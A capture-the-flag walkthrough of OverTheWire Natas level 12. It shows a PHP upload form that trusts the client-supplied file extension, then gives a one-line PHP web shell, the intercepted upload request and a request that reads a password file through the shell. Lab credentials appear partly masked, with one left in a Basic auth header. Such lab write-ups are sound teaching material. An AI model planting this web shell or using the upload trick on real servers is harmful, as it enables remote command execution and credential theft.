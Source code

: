 # level 12

**Host**: http://natas12.natas.labs.overthewire.org
>natas12:yZdkjAYZRd3R7tq7T5kXMj**********

When you visit the site, you get the following message:

```
Choose a JPEG to upload (max 1KB):
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

So when we upload a file it gets a 10 character lenght random filename and the file extension is set to `.jpg`. The function `makeRandomPath($dir, $ext)` take the file extension as input so we can intercept the upload process with burpsuite and change the file extension to `.php`.

Create a php shell oneliner and name it shell.php:

```php
<?php echo system($_GET["cmd"]); ?>
```

Upload this file with `Intercept on` in your burpsuite and change the file extension.

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary1c08c3a23c545a827eb81ed5fcd96ef5
Content-Length: 498
Origin: http://natas12.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMjp5WmRrakFZWlJkM1I3dHE3VDVrWE1qTUpsT0lrekRlQg==
Connection: keep-alive
Referer: http://natas12.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary1c08c3a23c545a827eb81ed5fcd96ef5
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------geckoformboundary1c08c3a23c545a827eb81ed5fcd96ef5
Content-Disposition: form-data; name="filename"

5vbtysvziy.php
------geckoformboundary1c08c3a23c545a827eb81ed5fcd96ef5
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: text/php

<?php echo system($_GET["cmd"]); ?>

------geckoformboundary1c08c3a23c545a827eb81ed5fcd96ef5--
```

Request the uploaded location `/upload/gg11gnhaei.php` and use the `?cmd=` parameter to grab the password for natas13.

```http
GET /upload/gg11gnhaei.php?cmd=cat+/etc/natas_webpass/natas13 HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMxMjp5WmRrakFZWlJkM1I3dHE3VDVrWE1qTUpsT0lrekRlQg==
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Date: Thu, 04 Sep 2025 10:42:34 GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Length: 65
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

trbs5pCjCrkuSknBBKHhaB**********
```